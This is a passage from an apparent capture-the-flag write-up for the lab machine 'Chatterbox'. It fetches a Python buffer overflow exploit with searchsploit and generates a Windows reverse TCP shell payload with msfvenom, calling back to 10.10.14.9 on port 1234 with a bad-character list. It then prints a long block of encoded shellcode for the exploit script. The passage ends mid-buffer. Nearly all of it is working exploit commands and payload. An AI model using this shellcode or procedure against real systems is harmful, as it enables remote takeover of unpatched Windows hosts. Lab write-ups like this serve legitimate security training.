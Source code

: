 ![[Chatterbox-02.png]]

```bash
searchsploit -m 36025
```

we will know it was a python buffer over flow exploit. The payload in the script opens up calculator. We need this opening up a reverse shell. The author was also nice enough to provide the buf script with bad characters to avoid. So we need to do add lhost and lport.

### msfvenom 
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

we will use this content to instead python script:

```python
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x6b\x4c\x69\x58\x65\x32"
buf += b"\x59\x70\x79\x70\x59\x70\x53\x30\x75\x39\x68\x65\x6d"
buf += b"\x61\x45\x70\x50\x64\x64\x4b\x50\x50\x4c\x70\x52\x6b"
buf += b"\x4f\x62\x5a\x6c\x64\x4b\x52\x32\x4a\x74\x54\x4b\x32"
buf += b"\x52\x4f\x38\x6c\x4f\x77\x47\x30\x4a\x4b\x76\x6d\x61"
buf += b"\x4b\x4f\x36\x4c\x6d\x6c\x70\x61\x63\x4c\x4b\x52\x4e"
buf += b"\x4c\x4f\x30\x39\x31\x66\x6f\x6a\x6d\x7a\x61\x68\x47"
buf += b"\x39\x52\x58\x72\x51\x42\x32\x37\x54\x4b\x4e\x72\x4c"
buf += b"\x50\x72\x6b\x30\x4a\x4f\x4c\x34\x4b\x4e\x6c\x6e\x31"
buf += b"\x42\x58\x68\x63\x30\x48\x5a\x61\x46\x71\x70\x51\x54"
buf += b"\x4b\x61\x49\x6d\x50\x6d\x31\x4a\x33\x54\x4b\x71\x39"
buf += b"\x4e\x38\x68\x63\x6d\x6a\x71\x39\x44\x4b\x4f\x44\x32"
buf += b"\x6b\x4a\x61\x77\x66\x6c\x71\x79\x6f\x64\x6c\x45\x71"
buf += b"\x36\x6f\x7a\x6d\x6d\x31\x67\x57\x4e\x58\x57\x70\x72"
buf += b"\x55\x4c\x36\x6a\x63\x43\x4d\x6b\x48\x6d\x6b\x71\x6d"
buf += b"\x6e\x44\x52\x55\x39\x54\x71\x48\x54\x4b\x61\x48\x4d"
buf += b"\x54\x59\x71\x67\x63\x6f\x76\x54\x4b\x4c\x4c\x30\x4b"
buf += b"\x54\x4b\x62\x38\x6d\x4c\x39\x71\x57\x63\x72\x6b\x4d"
buf += b"\x34\x32\x6b\x4b\x51\x7a\x30\x72\x69\x4d\x74\x4e\x44"
buf += b"\x6c\x64\x71\x4b\x51\x4b\x50\x61\x31\x49\x6e\x7a\x50"
buf += b"\x51\x69\x6f\x6b\x30\x4f\x6f\x51\x4f\x4f\x6a\x74\x4b"
buf += b"\x4b\x62\x48\x6b\x54\x4d\x71\x4d\x62\x48\x4d\x63\x6c"
buf += b"\x72\x6b\x50\x59\x70\x53\x38\x33\x47\x70\x73\x4f\x42"
buf += b"\x31\x4f\x4f\x64\x33\x38\x50\x4c\x62\x57\x6e\x46\x59"
buf += b"\x77\x59\x6f\x37\x65\x75\x68\x42\x70\x4a\x61\x4b\x50"
buf += b"\x69\x70\x6e\x49\x48\x44\x61\x44\x70\x50\x61\x58\x6f"
buf += b"\x39\x55\x30\x70\x6b\x69\x70\x69\x6f\x36\x75\x70\x50"
buf += b"\x62\x30\x62\x30\x32\x30\x51\x30\x32\x30\x71\x30\x52"
buf += b"\x30\x42\x48\x78\x6a\x5a\x6f\x79\x4f\x57\x70\x39\x6f"
buf += b"\x68\x55\x43\x67\x51\x5a\x7a\x65\x33\x38\x4a\x6a\x39"
buf += b"\x7a\x7a\x6e\x7a\x69\x42\x48\x49\x72\x4d\x30\x59\x74"
```